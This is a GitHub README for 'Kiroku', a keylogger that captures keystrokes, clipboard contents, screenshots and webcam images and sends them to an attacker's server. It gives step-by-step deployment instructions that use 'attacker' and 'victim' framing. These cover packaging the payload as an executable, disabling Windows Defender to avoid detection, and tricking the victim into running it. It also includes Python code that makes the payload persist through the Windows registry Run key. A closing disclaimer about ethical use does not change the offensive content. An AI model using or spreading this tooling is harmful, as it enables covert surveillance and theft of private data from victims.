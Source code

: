 # Kiroku Keylogger

![GIF](https://github.com/Kuraiyume/Kiroku/blob/main/kiroku.gif)

Kiroku Keylogger is a sophisticated tool designed to capture and monitor a wide range of user activities on a target system. It is equipped to log keystrokes, monitor clipboard contents, and take periodic screenshots and webcam image, which are then transmitted to a remote server at regular intervals.

## Payload Features

- **Keystroke Logging**: Captures all keystrokes, including special keys like Enter, Tab, and Backspace, and sends them to a specified server.
- **Clipboard Monitoring**: Continuously monitors clipboard content, detecting changes and sending the updated data to the server.
- **Screenshot Capture**: Takes screenshots at regular intervals and sends them to the server in a base64-encoded format.
- **Webcam Image Capture**: Takes webcam image at regular intervals and sends them to the server in a base64-encoded format also. (Not Compatible with Linux so we removed it)
- **Modifier Key Tracking**: Tracks the state of Ctrl, Alt, and Shift keys to accurately capture key combinations.
- **Configurable Intervals**: Allows customization of the intervals for sending keystrokes, clipboard data, and screenshots.
- **JSON Payloads**: Packages keystrokes, clipboard data, and screenshots into JSON format for server transmission.
- **Threaded Execution**: Runs keystroke logging, clipboard monitoring, and screenshot capture in separate threads for efficient performance.
- **Automatic Transmission**: Periodically sends captured data to the server without user intervention.
- **Base64 Encoding**: Encodes screenshots in base64 format before transmission to reduce the payload size.
- **Platform Compatibility**: Designed to work seamlessly on multiple platforms with minimal configuration changes.

## Server Features

- **Keystroke Logging**: Receives and logs keystrokes from the payload, saving them to a specified file.
- **Clipboard Data Capture**: Captures clipboard content from the payload and saves it to a specified file. Optionally logs clipboard data based on user preference.
- **Screenshot Handling**: Receives base64-encoded screenshots from the payload, decodes them, and saves them as PNG files in a specified directory.
- **Webcam handling**: Receives base64-encoded webcam images from the payload, decodes them, and saves them as a PNG files in a specified directory.
- **Victim IP Logging**: Logs the IP address of the victim alongside captured data to identify the source.
- **JSON Parsing and Error Handling**: Parses incoming data in JSON format and handles errors like invalid JSON or server issues with detailed logging.
- **Customizable Configuration**: Allows customization of the server port, file paths for saved keystrokes, clipboard data, and screenshot storage directory.
- **Threaded Execution**: Handles incoming POST requests concurrently, ensuring smooth and efficient server performance.
- **Logging**: Provides detailed logging of all activities, including received data, errors, and server operations.
- **Session Persistence**: Automatically reconnects and continues sessions if the server is restarted while the payload is still running, ensuring uninterrupted data capture.
- **Interactive Use**: The server offers GUI Interface for more interactive and customizable listening.

## Installation && Usage

- **Clone the repository:**
  ```bash
  git clone https://github.com/Kuraiyume/Kiroku
  ```

- **Install the necessary libraries:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *You will need to install this in the victim's machine*
  
- **On the attacker machine, run the server:**
  ```bash
  python3 server.py
  ```
  *If Tkinter is not installed, install it using 'sudo apt install python3-tk'*

- **On the victim device configure the payload and run the script:**
  ```bash
  python3 payload_windows.py
  ```
  *If your target is Linux machine:*
  ```bash
  python3 payload_linux.py
  ```

## How to make the payload run without the need of Python Interpreter?

- **You will need to install the required modules for the payload:**
  ```bash
  pip3 install -r requirements.txt
  ```
  *Ensure that all of the modules are installed!*

- **Configure the payload before we turn it to executable, change the server IP, Port, and the time intervals (if needed).**

- **We will use PyInstaller to convert our payload to a standalone executable (PyInstaller is included in the requirements.txt).**

- **We will use the 'payload.spec' file to convert our payload to executable, but first, configure it on how your executable should be packed based on your requirements.**

- **After Configuration, we will use PyInstaller along with the payload.spec to generate us an executable version of the payload:**
  ```bash
  pyinstaller payload.spec
  ```
  *Make sure to build the executable on the same OS as the target system to avoid compatibility issues due to architecture differences.*
  *If you're building the executable on windows, you should turn off the Real-Time Protection in Windows Defender to avoid detection while building.*

- **Once the conversion is done, you will see a dist folder that's where your executable lives. Now all you need to do is run the server on the attacker's machine and send the executable to the victim and wait for the victim to click it, once clicked, the payload will do its work.**
  
  *Ensure all configurations made before the conversion are correct and match the attacker's machine setup.*

- **If you want to make it persistent when you convert it to executable, you'll need to add a logic in the payload that can move itself to the windows registry when it's executable, Here's how you can do that:**
  1. Import the winreg and sys module to allow your payload to integrate with the registry and file system (sys):
     ```python
     import winreg
     import sys
     ```
  2. Add this function:
     ```python
     def add_to_registry():
         exe_path = sys.executable
         try:
             registry_key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, r"Software\Microsoft\Windows\CurrentVersion\Run", 0, winreg.KEY_SET_VALUE)
             key_name = 'Kiroku'
             winreg.SetValueEx(registry_key, key_name, 0, winreg.REG_SZ, exe_path)
             winreg.CloseKey(registry_key)
         except Exception as e:
             print(f"Failed to add executable to registry: {e}")
     ```
  3. Call the function to the main guard (AT THE BEGINNING):
     ```python
     if __name__ == "__main__":
         add_to_registry()
     ```

- **If you want to make it persistent when you convert it to executable in Linux, you'll need to add a logic in the payload that can move deattach itself when it's executable, Here's how you can do that:**
     
## Warning

This tool is intended strictly for educational purposes and ethical hacking only. Unauthorized use of this tool for malicious activities or without explicit consent is illegal and strictly prohibited.

- **Ethical Use Only:** Ensure that you have proper authorization before deploying or using this tool. It is meant to help understand security vulnerabilities and improve defenses, not to invade privacy or engage in unlawful activities.
- **Legal Compliance:** Be fully aware of and comply with all applicable laws and regulations in your jurisdiction. Misuse of this tool can result in severe legal consequences.
- **Responsibility:** The creator of this tool does not condone or support illegal activities. Use this tool responsibly and ethically to advance your knowledge and skills in cybersecurity.
  
Proceed with caution and integrity. Your actions reflect your respect for privacy and the law.

## License

- Kiroku is licensed under the GNU General Public License.

## Author

- Kuraiyume
